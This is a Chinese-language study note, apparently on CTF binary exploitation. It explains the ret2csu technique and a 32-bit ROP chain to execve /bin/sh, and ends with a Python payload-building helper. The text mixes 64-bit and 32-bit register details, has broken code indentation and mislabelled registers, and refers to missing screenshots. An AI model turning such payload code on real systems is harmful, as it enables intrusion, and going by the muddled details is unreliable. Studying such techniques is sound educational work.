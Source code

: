 ## 原理
1. 我们可以在我们的 `IDA` 中找到我们的 `libc_csu_init` 函数，这一类函数的特点是，存在有大量的 `pop` 指令，来修改我们的寄存器，我们就可以修改我们的 `rbx,rbp,rdx,rsi,edi`,
![[Pasted image 20231206221323.png]]
2. 因为我们的 `64` 位下，我们的指令参数前六个都是要从我们的寄存器中去获取，后续的其他参数从我们的栈中去获取。因此，我们可以直接用我们这一个来修改我们的寄存器。

但是，我们需要注意的是，我们需要提前定位好我们的数据的对应地址在哪里。

## 操作流程：
1. Checksec 我们的代码，检查哦我们的代码架构
![[Pasted image 20231129202327.png]]
因为写入了 `NX `，所以我们直接写 shellcode 是不可能的

2. 检查我们的程序中是否有后门函数
![[Pasted image 20231129202408.png]]

3. 我们发现，我们有 `\bin\sh` 字符产，但是没有我们的 `system` 函数，我们就考虑用我们的返回导向编程
![[Pasted image 20231129202524.png]]
4. 我们找到我们程序中的漏洞，比如说我们的 `gets`
![[Pasted image 20231129202604.png]]

5. 于是我们就先去找我们的对应的 `gadget`
![[Pasted image 20231129202708.png]]

6. 我们给我们的 `eax,ebx,ecx,edx` 赋值，又因为我们的 `ecx,edx` 初始为 0，所以我们优先考虑给我们的 `eax，ebx` 赋值。
最后，我们找到了下面的代码：
![[Pasted image 20231129202851.png]]
![[Pasted image 20231129203938.png]]
对于我们的 `pop_eax_ret`,这是我们首先要执行的地址，这就是我们 `栈溢出的地址`，
紧随其后，系统会执行我们的 `pop_eax`，把我们栈顶元素付给我们的 `eax`,所以我们下一个内容，就是我们的 ` eax ` 需要的数据，在这里是我们的 ` 0xb `,
再然后，系统会执行我们 `eax-return`, `return` 指令会把我们的给我们的指令指出我们的下一个地址应该是哪里，这里我们就需要填写我们的 ` pop_edx_ecx_ebx_return ` 的地址。
然后，我们的栈中还需要分别写我们的 `edx` 需要的内容，这里是我们的 0， `ecx`, `ebx` 需要的内容，注意到，我们的 `ebx`,需要填写我们的 `/bin/sh`,这里我们选择用我们的地址传参，也就是我们要在这里写入我们的地址, 最后，再输入我们的下一条要执行指令的地址，也就是我们的 ` int 80 `


## 利用方法：
```python
def ret2csu(padding, rbx, rbp, r12, r13, r14, r15, sign, ret_addr):  
       payload = padding  
    payload+= p64(gadgets1)     #gadget1  
          payload += 'b'*8                     
    payload+= p64(rbx)              #rbx  
    payload+= p64(rbp)              #rbp  
    payload+= p64(r12)              #r12 - 要使用的函数  
    if sign == 'asc':       #正序  
        payload+= p64(r13)      # rdx - 参数1  
        payload+= p64(r14)      # rsi - 参数2  
        payload+= p64(r15)       # edi - 参数3  
    elif sign == 'desc':    #逆序  
        payload+= p64(r15)       # rdi - 参数3  
        payload+= p64(r14)      # rsi - 参数2  
        payload+= p64(r13)      # rdx - 参数1  
    payload+= p64(gadgets2)     #gadget2  
      
    payload += 'c' * 0x38        #抬高7*8个字节   
    payload += p64(ret_addr) #及返回地址  
    r.sendline(payload)
```